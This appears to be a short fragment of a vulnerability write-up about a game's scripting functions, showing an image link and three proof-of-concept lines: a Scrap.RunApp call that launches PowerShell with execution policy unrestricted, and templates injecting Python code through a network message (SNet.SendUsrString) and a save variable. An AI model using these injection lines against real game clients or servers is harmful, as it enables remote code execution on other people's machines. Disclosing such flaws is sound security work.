 
- `Scrap.RunApp("C:/WINDOWS/System32/WindowsPowerShell/v1.0/powershell.EXE",'-NoProfile -ExecutionPolicy Unrestricted -Command "dir | out-file pwned.txt"')`
- `SNet.SendUsrString(<id>,"T<PythonCode>")`
- `Scrap.SetSaveVar("GameplayTime","<pythoncode>")`